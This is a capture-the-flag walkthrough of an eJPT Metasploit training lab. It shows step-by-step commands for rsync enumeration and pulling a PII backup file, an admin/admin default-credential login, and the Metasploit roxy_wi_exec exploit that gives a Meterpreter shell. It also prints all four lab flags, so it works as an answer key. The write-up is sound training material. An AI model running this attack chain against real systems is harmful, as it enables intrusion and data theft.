# Host & Network Penetration Testing: The Metasploit Framework CTF 2 Walkthrough

## Overview

This walkthrough documents the methodology used to solve the **The Metasploit Framework CTF 2** Skill Check Lab from the eJPT course. The objective was to perform enumeration, exploitation, and post-exploitation activities against two target systems and capture all four flags hidden throughout the environment.

> **Disclaimer:** This writeup is intended for educational purposes only and was conducted in an authorized training environment provided by INE/eLearnSecurity.

---

# Lab Environment

The lab provided GUI access to a Kali Linux machine with two target systems.

## Targets

```text
target1.ine.local
target2.ine.local
```

## Objectives

| Flag | Objective |
|--------|-----------|
| Flag 1 | Enumerate the RSYNC service and inspect the banner for hidden information |
| Flag 2 | Explore files exposed through RSYNC and recover the hidden flag |
| Flag 3 | Exploit the web application on target2 and obtain a shell |
| Flag 4 | Investigate scheduled jobs or running processes to uncover the final flag |

---

# Target 1 Enumeration

The first step was to start the Metasploit database and perform a full service enumeration scan.

## Starting Metasploit

```bash
service postgresql start && msfconsole
```

## Creating a Workspace

```bash
workspace -a target1
```

## Nmap Scan

```bash
db_nmap -sV -sC -p- -O target1.ine.local
```

### Scan Results

The scan revealed only a single open port:

```text
873/tcp open rsync (protocol version 31)
```




---

# Flag 1 - RSYNC Enumeration

Since RSYNC was the only exposed service, further enumeration was performed.

## Banner Enumeration

```bash
nc -nv 192.194.112.3 873
```

The RSYNC banner confirmed that the service was running and accepting connections.

Further enumeration of available modules was performed using the RSYNC client.

## Enumerating Available Modules

```bash
rsync 192.194.112.3::
```

While reviewing the output, the first flag was discovered.

### Flag 1

```text
bafe7fd18b55468487b0a36ba6a6e2bc
```

### Screenshot



---

# Flag 2 - Exploring RSYNC Shares

During enumeration, an interesting RSYNC module was discovered:

```text
backupwscohen
```

The name suggested it contained backup files and potentially sensitive information.

## Enumerating Available Files

Several files were downloaded and inspected.

### Downloading TPS Data

```bash
rsync 192.194.112.3::backupwscohen/TPSData.txt TPSData.txt
```

No flag was discovered in this file.

---

## Downloading PII Data

Another file appeared more interesting.

```bash
rsync 192.194.112.3::backupwscohen/pii_data.xlsx pii_data.xlsx
```

After reviewing the spreadsheet contents, the second flag was identified.

### Flag 2

```text
cd1797c569b14a559fdb324d429a93ca
```

### Screenshot



---

# Target 2 Enumeration

After completing the objectives on Target 1, attention shifted to Target 2.

## Creating a Workspace

```bash
workspace -a target2
```

## Nmap Scan

```bash
db_nmap -sV -sC -p- -O target2.ine.local
```

### Scan Results

```text
80/tcp   open  http
443/tcp  open  https
```

### Screenshot



---

# Web Application Investigation

While browsing the HTTP service on port 80, an unusual behavior was observed.

The site automatically downloaded a file named:

```text
overview.py
```

This appeared to be a distraction and did not provide an immediate path to exploitation.

### web app



---

# Discovering the Login Portal

Navigating to the HTTPS service revealed a login page.

### login portal



As a quick test, common default credentials were attempted.

### Successful Login

```text
Username: admin
Password: admin
```

Authentication succeeded and administrative access to the application was obtained.

### Screenshot



---

# Flag 3 - Exploiting Roxy-WI

After identifying the application, I searched Metasploit for available exploits.

A suitable module was discovered for Roxy-WI.

## Module Used

```bash
use exploit/linux/http/roxy_wi_exec
```

## Configuration

```bash
set RHOSTS 192.194.112.4
set RPORT 80
set USERNAME admin
set PASSWORD admin
```

## Exploitation

```bash
exploit
```

The exploit successfully returned a Meterpreter session.

### Screenshot



---

# Session Upgrade

To improve reliability and post-exploitation capabilities, the session was upgraded

```bash
sessions -u 1
```

### Screenshot



---

# Capturing Flag 3

After obtaining access, I began exploring the filesystem.

The third flag was discovered in the root directory.

## Enumeration

```bash
cd /
ls
cat <flag_file>
```

### Flag 3

```text
21759fa12faf4fb5a91afe85e868fffa
```

### Screenshot



---

# Flag 4 - Scheduled Task Investigation

The final challenge hinted that automated tasks might reveal useful information.

On Linux systems, scheduled tasks are commonly managed using Cron.

Since a Meterpreter session was already available, I opened a shell and began investigating cron jobs.

---

## Enumerating Cron Jobs

The following directory was inspected:

```bash
cd /etc/cron.d/
ls -la
```

An interesting file was identified:

```text
www-data-cron
```

### Screenshot



---

## Inspecting the Cron Job

The contents of the cron configuration were reviewed.

```bash
cat www-data-cron
```

While examining the file, the fourth flag was discovered.

### Flag 4

```text
f5140e90661e4cde98f2da81aaddc599
```

### Screenshot



---

# Key Takeaways

This lab demonstrated several important offensive security concepts:

* Service enumeration using Nmap
* RSYNC service enumeration
* Anonymous access to backup repositories
* Sensitive data exposure through backup files
* Web application reconnaissance
* Default credential attacks
* Exploitation using Metasploit
* Linux post-exploitation techniques
* Cron job enumeration
* Attack path chaining

The most important lesson from this lab is that exposed services such as RSYNC often contain sensitive backup data, while weak administrative credentials can quickly lead to full system compromise. Thorough enumeration of both services and filesystem artifacts is often enough to uncover critical information.

---


Happy Hacking!